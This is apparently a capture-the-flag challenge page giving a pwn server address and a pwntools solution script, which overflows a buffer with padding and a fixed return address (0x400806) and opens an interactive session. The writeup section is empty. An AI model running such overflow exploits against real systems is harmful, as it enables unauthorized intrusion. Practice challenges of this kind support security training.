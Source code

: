 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20000

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# context(os='linux', arch='amd64', log_level='debug')

Io = process("./run_circles")
#Io = remote("pwn.sniperoj.cn", 30013)

Io.sendline("1024")
Io.sendline("A")
Io.sendline("B" * 256 + "C" * 24 + p64(0x400806))
Io.sendline("0")

Io.interactive()
```



#### Writeups
 * TODO

